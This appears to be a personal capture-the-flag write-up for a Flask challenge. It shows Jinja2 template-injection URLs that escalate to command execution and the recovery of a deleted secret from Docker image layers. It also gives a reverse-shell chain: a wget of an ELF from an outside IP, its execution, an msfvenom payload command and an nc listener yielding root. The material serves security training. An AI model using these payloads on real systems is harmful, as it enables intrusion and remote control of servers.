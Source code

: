 Ok Flask Jinja injection time

http://167.99.77.149:31703/?nopain={{%277%27*7}}
```
7777777
```

Research

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti

![[Pasted image 20221203234122.png]]

Try remote code execution or something?

https://secure-cookie.io/attacks/ssti/

http://167.99.77.149:31703/?nopain=%3Ccode%3E{{%22foo%22.__class__.__base__.__subclasses__()}}%3C/code%3E

![[Pasted image 20221203234837.png]]

Finding Warnings Class

![[Pasted image 20221203234957.png]]

```python
>>> var = "..." # Put Text from webpage here
>>> l = var.split(",")
>>> for i in range(len(l)):
...     if "warnings.catch_warnings" in l[i]: print(i)
... 
207
>>> 
```

http://167.99.77.149:31703/?nopain=%3Ccode%3E{{%22foo%22.__class__.__base__.__subclasses__()[207]}}%3C/code%3E

```
<class 'warnings.catch_warnings'>
```

## RCE

http://167.99.77.149:31703/?nopain=%3Ccode%3E{{%22foo%22.__class__.__base__.__subclasses__()[207].__init__.__globals__[%27sys%27].modules[%27os%27].popen(%22ls%22).read()}}%3C/code%3E

```
app.py blueprint.img requirements.txt templates
```


http://167.99.77.149:31703/?nopain=%3Ccode%3E{{%22foo%22.__class__.__base__.__subclasses__()[207].__init__.__globals__[%27sys%27].modules[%27os%27].popen(%22cat%20app.py%22).read()}}%3C/code%3E

```python

<code>from flask import Flask, render_template, make_response, request, render_template_string, send_file
from datetime import datetime
import base64

app = Flask(__name__)

@app.route(&#39;/&#39;)
def page2():
    if request.args.get(&#39;nopain&#39;):
        return render_template_string(request.args.get(&#39;nopain&#39;))
    else:
        return render_template(&#39;defendthevillage.html&#39;)

@app.route(&#39;/defendthevillagefrompain&#39;, methods=[&#39;GET&#39;])
def page3():
    try:
        return send_file(&#39;./blueprint.img&#39;)
    except Exception as e:
        return str(e)
if __name__ == &#34;__main__&#34;:
    app.run(host=&#34;0.0.0.0&#34;, port=8086)
</code>
```


Can retrieve image from `/defendthevillagefrompain`

## Image file

```
[hacker@hackerbook 4 Paths of Pain]$ cd blueprint/
[hacker@hackerbook blueprint]$ tar xvf blueprint.img
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/VERSION
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/json
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/layer.tar
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/VERSION
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/json
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/layer.tar
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/VERSION
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/json
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/layer.tar
786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/VERSION
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/json
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/layer.tar
manifest.json
repositories
[hacker@hackerbook blueprint]$ binwalk blueprint.img 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             POSIX tar archive, owner user name: "821e24d35c5207fc2b00ccff278c5cc4", owner group name: "5200aa218e18d09b0823b148/"

[hacker@hackerbook blueprint]$ 
```

Since I done this before (or attempted it at least), looks like docker image
https://0xdf.gitlab.io/flare-on-2021/antioch


just checking the json file which happens to lead to how the blueprint is produced
```json
[hacker@hackerbook blueprint]$ cat 786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json 
{"architecture":"amd64","author":"OMEGALUL \"hector99@jts.tech.gov.sg\"","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","PAIN_METER=99"],"Cmd":["/bin/sh","-c","\"whoami\""],"WorkingDir":"/usr/src/app","ArgsEscaped":true,"OnBuild":null},"created":"2022-11-18T02:49:23.47397059Z","history":[{"created":"2022-11-02T18:25:55.600834827Z","created_by":"/bin/sh -c #(nop) ADD file:29c72d5be8c977acaeb6391aeb23ec27559b594e25a0bb3a6dd280bac2847b7f in / "},{"created":"2022-11-02T18:25:55.892262049Z","created_by":"/bin/sh -c #(nop)  CMD [\"bash\"]","empty_layer":true},{"created":"2022-11-02T18:25:55.892262049Z","created_by":"MAINTAINER OMEGALUL \"hector99@jts.tech.gov.sg\"","comment":"buildkit.dockerfile.v0","empty_layer":true},{"created":"2022-11-02T18:25:55.892262049Z","created_by":"ENV PAIN_METER=99","comment":"buildkit.dockerfile.v0","empty_layer":true},{"created":"2022-11-18T02:26:02.567040981Z","created_by":"MAINTAINER OMEGALUL \"hector99@jts.tech.gov.sg\"","comment":"buildkit.dockerfile.v0","empty_layer":true},{"created":"2022-11-18T02:26:02.567040981Z","created_by":"ENV PAIN_METER=99","comment":"buildkit.dockerfile.v0","empty_layer":true},{"created":"2022-11-18T02:26:02.567040981Z","created_by":"WORKDIR /usr/src/app","comment":"buildkit.dockerfile.v0"},{"created":"2022-11-18T02:49:23.301698469Z","created_by":"COPY secret-message.txt /usr/src/app # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2022-11-18T02:49:23.47397059Z","created_by":"RUN /bin/sh -c rm -rf /usr/src/app/secret-message.txt # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2022-11-18T02:49:23.47397059Z","created_by":"CMD [\"/bin/sh\" \"-c\" \"\\\"whoami\\\"\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:f4a670ac65b68f8757aea863ac0de19e627c0ea57165abad8094eae512ca7dad","sha256:bea894ea35e86bb49ff86fa74c472b632c098a3b1b0e421b6461af76dfd941ae","sha256:c90547c3c83dc1dc3e1715737669eda79f1e7ff9de3028b853385727007939e0","sha256:dbe8bb62320ede485ae457acf2b983d854fea5a2b1aaaffbbe316b571b33fa3d"]}}[hacker@hackerbook blueprint]$ 
```


running docker image

```bash
[hacker@hackerbook blueprint]$ sudo docker load --input blueprint.img 
bea894ea35e8: Loading layer [==================================================>]  3.072kB/3.072kB
c90547c3c83d: Loading layer [==================================================>]  3.584kB/3.584kB
dbe8bb62320e: Loading layer [==================================================>]  3.072kB/3.072kB
Loaded image: stf2022:latest
[hacker@hackerbook blueprint]$ sudo docker run -it stf2022 bash
root@349c4eabb1bf:/usr/src/app# ls
root@349c4eabb1bf:/usr/src/app# ls -al
total 12
drwxr-xr-x 1 root root 4096 Nov 18 02:49 .
drwxr-xr-x 1 root root 4096 Nov 18 02:26 ..
root@349c4eabb1bf:/usr/src/app#
```

```
(base) [hacker@hackerbook 4 Paths of Pain]$ sudo docker history stf2022
[sudo] password for hacker: 
Sorry, try again.
[sudo] password for hacker: 
IMAGE          CREATED       CREATED BY                                      SIZE      COMMENT
786fa9103994   2 weeks ago   CMD ["/bin/sh" "-c" "\"whoami\""]               0B        buildkit.dockerfile.v0
<missing>      2 weeks ago   RUN /bin/sh -c rm -rf /usr/src/app/secret-me…   0B        buildkit.dockerfile.v0
<missing>      2 weeks ago   COPY secret-message.txt /usr/src/app # build…   72B       buildkit.dockerfile.v0
<missing>      2 weeks ago   WORKDIR /usr/src/app                            0B        buildkit.dockerfile.v0
<missing>      2 weeks ago   ENV PAIN_METER=99                               0B        buildkit.dockerfile.v0
<missing>      2 weeks ago   MAINTAINER OMEGALUL "hector99@jts.tech.gov.s…   0B        buildkit.dockerfile.v0
<missing>      4 weeks ago   ENV PAIN_METER=99                               0B        buildkit.dockerfile.v0
<missing>      4 weeks ago   MAINTAINER OMEGALUL "hector99@jts.tech.gov.s…   0B        buildkit.dockerfile.v0
<missing>      4 weeks ago   /bin/sh -c #(nop)  CMD ["bash"]                 0B        
<missing>      4 weeks ago   /bin/sh -c #(nop) ADD file:29c72d5be8c977aca…   77.8MB    
(base) [hacker@hackerbook 4 Paths of Pain]$ 
```

So I decided to manually search the layers and I found something

```bash
[hacker@hackerbook blueprint]$ ls
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148  786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json  manifest.json
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0  blueprint.img                                                          repositories
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043  d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb
[hacker@hackerbook blueprint]$ cd 23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/
[hacker@hackerbook 23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148]$ mkdir test && cp layer.tar test/ && cd test && tar xvf layer.tar
usr/
usr/src/
usr/src/app/
usr/src/app/secret-message.txt
[hacker@hackerbook test]$ ls
layer.tar  usr
[hacker@hackerbook test]$ cat usr/src/app/secret-message.txt 
The last hiding place is located at pollylester/defendingkonohafrompain
[hacker@hackerbook test]$ 
```


## Reverse Shell

view-source:http://167.99.77.149:31703/?nopain=%3Ccode%3E{{%22foo%22.__class__.__base__.__subclasses__()[207].__init__.__globals__[%27sys%27].modules[%27os%27].popen(%22wget%203.132.159.158:19351/reverse.elf%20-O%20reverse.elf%22).read()}}%3C/code%3E

view-source:http://167.99.77.149:31703/?nopain=%3Ccode%3E{{%22foo%22.__class__.__base__.__subclasses__()[207].__init__.__globals__[%27sys%27].modules[%27os%27].popen(%22chmod%207777%20reverse.elf%202%3E%261%22).read()}}%3C/code%3E

view-source:http://167.99.77.149:31703/?nopain=%3Ccode%3E{{%22foo%22.__class__.__base__.__subclasses__()[207].__init__.__globals__[%27sys%27].modules[%27os%27].popen(%22./reverse.elf%202%3E%261%22).read()}}%3C/code%3E


```bash
┌──(kali㉿kali)-[/tmp]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=3.132.159.158 LPORT=19351 -f elf -o reverse.elf

```


```bash
(base) [hacker@hackerbook tmp]$ nc -nlvp 4444
Connection from 127.0.0.1:57558
whoami
root
ls
app.py
blueprint.img
requirements.txt
reverse.elf
templates
python -c 'import pty; pty.spawn("/bin/bash")'
root@ng-4pathsofpain-j5nhv-6f76594c54-tkhj4:/app# ls
ls
app.py	blueprint.img  requirements.txt  reverse.elf  templates
root@ng-4pathsofpain-j5nhv-6f76594c54-tkhj4:/app# ls -al
ls -al
total 78488
drwxr-xr-x 1 root root     4096 Dec  3 16:29 .
drwxr-xr-x 1 root root     4096 Dec  3 15:32 ..
-rw-r--r-- 1 root root      603 Dec  1 14:56 app.py
-rw-r--r-- 1 root root 80340480 Dec  1 14:56 blueprint.img
-rw-r--r-- 1 root root       94 Dec  1 14:56 requirements.txt
-rwsrwsrwt 1 root root      194 Dec  3 16:27 reverse.elf
drwxr-xr-x 2 root root     4096 Dec  1 14:56 templates
root@ng-4pathsofpain-j5nhv-6f76594c54-tkhj4:/app# cd   
```

# Flag
